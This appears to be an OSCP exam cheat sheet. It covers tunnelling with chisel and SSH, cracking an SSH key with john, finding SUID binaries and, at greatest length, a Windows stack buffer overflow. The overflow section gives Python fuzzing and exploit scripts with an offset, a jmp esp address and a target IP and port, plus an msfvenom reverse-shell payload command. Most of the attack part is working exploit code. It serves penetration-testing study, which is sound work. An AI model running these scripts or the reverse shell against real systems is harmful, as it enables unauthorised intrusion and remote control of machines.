 # OSCP_Cheat_sheet

## Privilege Escalation

1. Port-Forwarding or SSH Tunneling

 a. ./chisel client 10.10.14.21:8080 R:631:127.0.0.1:631 -- target machine

    ./chisel server --reverse -- host machine
    
 b. ssh user@ip -D 1080 -- forward all traffics on localhost port 1080

    edit /etc/proxychains.conf, add SOCKS 127.0.0.1 1080 

    ssh user@ip -L xxxx.127.0.0.1:xxxx 

    proxychains <command>

 c. 

 2. Attach tmux session

  /usr/bin/tmux -S /.devs/dev_sess

 3. Decrypt id_rsa key with password

   /usr/share/john/ssh2john.py id_rsa.encrypted > id_rsa_ssh2john

   john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ssh2john

   openssl rsa -in hype_key_encrypted -out hype_key_decrypted

 4. Finding SUID binaries

   find / -perm -4000 2>/dev/null

## Buffer Overflow - Windows

1. Set working folder for mona.

**!mona config -set workingfolder c:\mona\%p**
  
2. Fuzz number of bytes until application crashed.

import socket, time, sys

ip = ""
port = 
timeout = 5

buffer = [] 
counter = 100
while len(buffer) < 30:
    buffer.append(b"A" * counter)
    counter += 100

for string in buffer:
   try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.settimeout(timeout)
      connect = s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with %s bytes" % len(string))
      s.send(b"OVERFLOW1 " + string + b"\r\n")
      s.recv(1024)
      s.close()

   except:
      print("Could not connect to " + ip + ":" + str(port))
      sys.exit(0)
   time.sleep(1) 

3. Control EIP, create a pattern and determine the offset. Add 400 bytes on the crashed bytes.

**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600**

import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset
retn = b""
padding = b""
payload = b""
postfix = b""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")

**/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q **


!mona findmsp -distance <numberofbytescreated>

4. Determine badchars. Create \x00 to \xff and look for missing character.
  **Note: Remember that badchars can affect the next byte as well!**

**!mona bytearray -b "\x00"**


import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset + b"B" * 4
badchars =(
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
retn = b""
padding = b""
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(badchars)))

buffer = prefix + overflow + badchars + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**!mona compare -f C:\mona\oscp\bytearray.bin -a**

5. Search for jmp esp avoiding the badchars.

**!mona jmp -r esp -cpb "\x00"**

6. Create your payload using msfvenom.

import socket
import struct

ip = "10.10.70.219"
port = 1337

prefix = b"OVERFLOW7 "
offset = 1306
#390-dummy 
overflow = b"A" * offset 
#0x625011af : jmp esp   
retn = struct.pack("I",0x625011af)
padding = b"\x90"*21
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(payload+padding)))

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py**  

   
